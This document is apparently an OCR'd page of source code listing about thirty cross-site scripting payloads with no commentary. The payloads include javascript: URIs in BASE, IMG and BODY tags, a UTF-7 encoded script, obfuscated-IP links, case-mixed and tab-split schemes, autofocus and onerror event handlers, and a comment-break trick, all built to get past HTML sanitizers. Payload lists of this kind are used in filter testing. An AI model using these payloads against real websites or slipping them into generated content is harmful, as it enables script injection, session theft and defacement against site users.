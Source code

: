 &lt;BASE HREF="javascript:alert('XSS');//"&gt;

&lt;? echo('&lt;SCR)';echo('IPT&gt;alert("XSS")&lt;/SCRIPT&gt;'); ?&gt;

&lt;META HTTP-EQUIV="Set-Cookie" Content="USERID=&lt;SCRIPT&gt;alert('XSS')&lt;/SCRIPT&gt;"&gt;

&lt;HEAD&gt;&lt;META HTTP-EQUIV="CONTENT-TYPE" CONTENT="text/html; charset=UTF-7"&gt; &lt;/HEAD&gt;+ADw-SCRIPT+AD4-alert('XSS');+ADw-/SCRIPT+AD4-

&lt;A HREF="http://66.102.7.147/"&gt;XSS&lt;/A&gt;

&lt;A HREF="http://%77%77%77%2E%67%6F%6F%67%6C%65%2E%63%6F%6D"&gt;XSS&lt;/A&gt;

&lt;A HREF="http://1113982867/"&gt;XSS&lt;/A&gt;

&lt;A HREF="http://0x42.0x0000066.0x7.0x93/"&gt;XSS&lt;/A&gt;

&lt;A HREF="http://0102.0146.0007.00000223/"&gt;XSS&lt;/A&gt;

&lt;A HREF="htt    p://6   6.000146.0x7.147/"&gt;XSS&lt;/A&gt;

&lt;script/src=data&colon;text/j\u0061v\u0061&#115&#99&#114&#105&#112&#116,\u0061%6C%65%72%74(/XSS/)&gt;&lt;/script

&lt;IMG SRC=jAVasCrIPt:alert(‘XSS’)&gt;

&lt;IMG SRC=”javascript:alert(‘XSS’);”&gt;

&lt;IMG SRC=javascript:alert(&quot;XSS&quot;)&gt;

&lt;IMG SRC=javascript:alert(‘XSS’)&gt;

&lt;IMG “””&gt;&lt;SCRIPT&gt;alert(“XSS”)&lt;/SCRIPT&gt;”&gt;

&lt;IMG SRC=”jav ascript:alert(‘XSS’);”&gt;

&lt;IMG SRC=”jav&#x09;ascript:alert(‘XSS’);”&gt;

&lt;&lt;SCRIPT&gt;alert(“XSS”);//&lt;&lt;/SCRIPT&gt;

&lt;BODY BACKGROUND=”javascript:alert(‘XSS’)”&gt;

&lt;BODY ONLOAD=alert(‘XSS’)&gt;

&lt;INPUT TYPE=”IMAGE” SRC=”javascript:alert(‘XSS’);”&gt;

&lt;IMG SRC=”javascript:alert(‘XSS’)”

&lt;img src="javascript:alert('XSS');"&gt;

&lt;img src=javascript:alert(&quot;XSS&quot;)&gt;

&lt;script&gt;alert("XSS");&lt;/script&gt;&search=1

&lt;input onfocus=write(XSS) autofocus&gt;

&lt;input onblur=write(XSS) autofocus&gt;&lt;input autofocus&gt;

&lt;body onscroll=alert(XSS)&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;...&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;input autofocus&gt;

&lt;form&gt;&lt;button formaction="javascript:alert(XSS)"&gt;lol

&lt;!--&lt;img src="--&gt;&lt;img src=x onerror=alert(XSS)//"&gt;
